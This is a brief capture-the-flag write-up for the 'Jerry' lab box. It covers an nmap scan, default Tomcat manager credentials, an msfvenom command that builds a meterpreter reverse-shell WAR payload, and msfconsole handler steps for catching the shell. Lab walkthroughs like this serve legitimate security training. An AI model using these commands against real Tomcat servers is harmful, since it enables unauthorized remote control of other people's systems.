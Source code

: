 #	Jerry (10.10.10.95 -Windows box)
##	Writeup by Hexachroma

1. nmap -Pn -sC -sV -oN nmap/init {ip} -T5 -v
```
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache Tomcat/7.0.88
```
2. WebApp misconfiguration
>	Default creds tomcat:s3cret to view manager-gui
>	to exploit create a war file with msfvenom

3. Creating payload with msfvenom 
> 	`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$tun0 LPORT=9001 -f war -o exploit.war`
>	Note: `[1] */meterpreter_reverse_tcp != [2] */meterpreter/reverse_tcp`
>			since [1] is bigger in size than [2]

4. msfconsole -q and upload + deploy war files in jerry.htb:8080/manager/
>	enter `use exploit/multi/handler`
>	enter `set payload windows/x64/meterpreter/reverse_tcp`
>	set LHOST tun0
>	set LPORT xxxx
>	run
>	switch to your browser and query the location ie. jerry.htb:8080/exploit/random.jsp
